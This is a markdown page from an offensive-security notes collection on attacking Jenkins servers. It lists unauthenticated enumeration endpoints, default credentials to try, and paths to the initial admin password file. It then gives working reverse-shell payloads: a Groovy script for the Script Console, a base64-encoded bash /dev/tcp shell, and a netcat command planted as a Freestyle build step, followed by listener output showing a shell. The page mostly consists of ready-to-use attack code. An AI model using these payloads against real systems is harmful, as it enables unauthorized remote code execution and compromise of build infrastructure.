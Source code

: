 ```yaml
---
title: Jenkins
category: Software
order: 4
---
```


# Introduction

Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.

![Jenkins Login.](/hackingnotes/images/jenkins.png)

# Enumeration

We can obtain a some valuable information without necessarily log in on the server.

## Jenkins Version

Visit the following route to obtain the Jenkins version on the footer page.

```
/oops
/error

Page generated: Sep 27, 2021 12:46:28 PM PDTREST APIJenkins ver. 2.204.1
```

## Users

Without credentials it is possible to obtain some users.

```
/people
/people/
/asynchPeople
/asynchPeople/
/securityRealm/user/admin/search/index?q=
```

# Credentials

There are no default credentials but some times these works.

```
admin:admin
admin:password
admin:jenkins
```

In new versions the password is randomized at installation. We can find the initial password here:

* **Linux**

```
/var/jenkins_home/secrets/initialAdminPassword
/home/jenkins/secrets/initialAdminPassword
/var/lib/jenkins/secrets/initialAdminPassword
/opt/jenkins/secrets/initialAdminPassword
```

* **Windows**

```
C:\Program Files (x86)\Jenkins\secrets\initialAdminPassword
C:\Program Files\Jenkins\secrets\initialAdminPassword
```

# From Admin to Reverse Shell

There are multiple ways in which from administrative privileges in Jenkins you can get a reverse shell.

## Script Console

To obtain a Reverse shell we need to execute **`Manage Jenkins`** on **`Script Console.`**

![Jenking Script Console.](/hackingnotes/images/jenkins_scriptconsole.png)

### Windows Reverse Shell

```
String host="<IP-ADDR>";
int port=<PORT>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Linux Reverse Shell

First we need to craft the payload.

```
$ echo "bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK
```

And introduce inside the Grovvy script.

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

## Freestyle Project

Go on **`New Item`** tab.

![Jenkins Dashboard](/hackingnotes/images/jenkins_newitem.png)

Introduce a name such as **`Access`** and select **`Freestyle Project`** .

![Jenkins Creating a New Item.](/hackingnotes/images/jenkins_projects.png)

Scroll down until you find the **`Build`** section and add a **`Execute Windows batch command`** as build step.

![Jenkins Execute Windows Batch Command.](/hackingnotes/images/jenkins_build.png)

Introduce the reverse shell on the Command window and click **`Save`**.

```
\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10
```

Go to **`Build Now`** section.

![Jenkins Build Now section.](/hackingnotes/images/jenkins_buildnow.png)

When the build is executed a new item will be displayed under the **`Build History`**.

![Jenkins Build History.](/hackingnotes/images/jenkins_history)

At that moment a reverse shell is obtained.

```
$ sudo nc -lvp 443
listening on [any] 443 ...
connect to [10.10.10.11] from (UNKNOWN) [10.10.10.11] 26524
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>    
```

We can also check the console output selecting the **`Built Item #1`** and going to **`Console Output`** section.

![Jenkins Console Output.](/hackingnotes/images/jenkins_console.png)
